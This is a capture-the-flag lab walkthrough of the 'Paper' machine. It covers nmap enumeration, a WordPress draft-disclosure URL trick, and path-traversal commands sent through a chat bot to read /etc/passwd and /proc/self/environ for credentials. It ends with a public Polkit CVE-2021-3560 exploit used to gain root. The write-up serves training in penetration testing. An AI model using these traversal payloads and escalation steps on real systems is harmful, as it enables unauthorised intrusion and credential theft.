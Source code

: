 # @Author : M3tr1c_r00t
## Paper!
![Paper](https://user-images.githubusercontent.com/99975622/207163312-7f2ee8ee-ae72-40b6-aac2-d67468a1c143.png)
Paper is an easy box where we can exploit an Arbitrary File Read Vulnerability off Drafted posts from wordpress version 5.2.3 to get creds of the site and ssh as the given user and using linpeas to get root user....

### Enumeration
_**Nmap...**_
<br> There were 3 ports open on the box i.e 22, 80 and 443

```
# Nmap 7.92 scan initiated Tue Nov 22 19:22:44 2022 as: nmap -sC -sV -A -p 22,80,443 -oN nmapports.txt 10.129.136.31
Nmap scan report for 10.129.136.31
Host is up (0.77s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 4.11 (94%), Linux 5.1 (94%), HP P2000 G3 NAS device (93%), Linux 3.18 (93%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   538.70 ms 10.10.14.1
2   538.53 ms 10.129.136.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 22 19:23:54 2022 -- 1 IP address (1 host up) scanned in 70.12 seconds

```
On visiting the ip on port 80, we are redirected to host;
<br> **_office.paper_**
![Screenshot_2022-11-22_23_41_07](https://user-images.githubusercontent.com/99975622/207164883-bedc026b-765a-4d1f-b921-c8a807aff166.png)

<br>So , lets add that to our /etc/hosts file ...
![Screenshot_2022-11-22_23_44_09](https://user-images.githubusercontent.com/99975622/207164972-df0f6c1a-d85d-4ebe-9fc2-c71e25192e1d.png)

**_Gobuster/Directory Brute...._**
<br>Next up, i ran a gobusterscan using common.txt wordlists and found a directory "/manual" which reveals to us this is a wordpress site...
```
/.hta                [33m (Status: 403) [0m [Size: 199]
/.htaccess           [33m (Status: 403) [0m [Size: 199]
/.htpasswd           [33m (Status: 403) [0m [Size: 199]
/cgi-bin/            [33m (Status: 403) [0m [Size: 199]
/manual              [36m (Status: 301) [0m [Size: 236] [34m [--> http://10.129.136.31/manual/] [0m
```
On that note, I did a wordpress scan using wpscan and we find the version...
![Screenshot_2022-11-22_23_47_42](https://user-images.githubusercontent.com/99975622/207165581-762e5db0-8e57-4113-90a2-53f6447f51f4.png)

Since it's an older version of wordpress, we can search for vulnerabilities....
![Screenshot_2022-11-22_23_53_30](https://user-images.githubusercontent.com/99975622/207165703-56f6de83-0da4-4ba2-88a6-90303eb1e827.png)
And we can see that we can we can get this by adding _**"/?static=1&order=asc"**_ in the url to view the saved drafts...

![Screenshot_2022-11-22_23_53_54](https://user-images.githubusercontent.com/99975622/207166148-24b400c6-f540-4fce-8b9e-d0f8b6ebf829.png)

On doing so, we get an error. But if we get rid of the _**order=asc**_, it works!

![Screenshot_2022-11-22_23_54_04](https://user-images.githubusercontent.com/99975622/207166297-79ebc158-fb92-4105-8a31-367676f6d678.png)

Looking at the dumped drafts, we can see there's an Employee chat system...
![Screenshot_2022-11-22_23_54_18](https://user-images.githubusercontent.com/99975622/207166937-d747360d-338b-4833-8c59-acadcb0f460b.png)
We can visit the url and register...

![Screenshot_2022-11-22_23_55_46](https://user-images.githubusercontent.com/99975622/207166624-34188a3b-e19f-4d5b-aef0-5b31152fa758.png)
We're in....
![Screenshot_2022-11-22_23_57_30](https://user-images.githubusercontent.com/99975622/207167348-32c66759-2566-4f1d-9d29-cc675a13ca7f.png)

After going through the employee's chats, we note that there's a bot in the system set by the admin to run bash commands on the server to get and read files...
![Screenshot_2022-11-22_23_57_49](https://user-images.githubusercontent.com/99975622/207167510-3bb38186-365d-4c9c-a59b-40ccc4a0a5c6.png)
 

```
recyclops file ../../../../../etc/passwd
```
we can run the code below to check on the system's environment...
```
recyclops file ../../../../../proc/self/environ
```
And we get some creds...
![Screenshot_2022-11-23_00_07_14](https://user-images.githubusercontent.com/99975622/207168981-d6d69328-30d2-43e9-9877-df6c3faaa4d1.png)

<br> We can try to ssh as dwight and it works...
<br> You can get the user flag...
![Screenshot_2022-11-23_00_08_53](https://user-images.githubusercontent.com/99975622/207169064-b3e3d656-85be-4238-9a95-a67c76d92d60.png)

We can also run the script as below adding the environment in the environ directory...
```
recyclops file ../../../../../proc/self/environ.env
```
![Screenshot_2022-11-23_00_07_35](https://user-images.githubusercontent.com/99975622/207169293-cb02a5c6-5861-41ea-9996-d1f60dd6e64e.png)

### Priv Esc...
![Screenshot_2022-11-23_00_11_16](https://user-images.githubusercontent.com/99975622/207170451-8e1ae662-4977-45cc-8cdf-05837c45c07f.png)

On running Linpeas, we realise that the system is vulnerable to _**"CVE-2021-3560"**_ (Polkit-Privilege-Esclation PoC)
```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
```
Clone the script then upload it to the box...
<br>On running the script, it creates a new user secnigma:secnigmaftw (Check source code for the creds...) that can run any command as root...
![Screenshot_2022-11-23_00_27_05](https://user-images.githubusercontent.com/99975622/207170797-b1e22b18-0527-467c-93cc-a589cb5f2663.png)
Move to the user using su.
<br> Next you can run sudo bash and we're root!
![Screenshot_2022-11-23_00_27_27](https://user-images.githubusercontent.com/99975622/207170964-8a37950f-533c-4866-9c03-b160167d72c8.png)
Get your root flag and boom!
<br>Done!

### Socials
@Instagram : https://instagram.com/M3tr1c_r00t
<br>@Twitter : https://twitter.com/M3tr1c_root
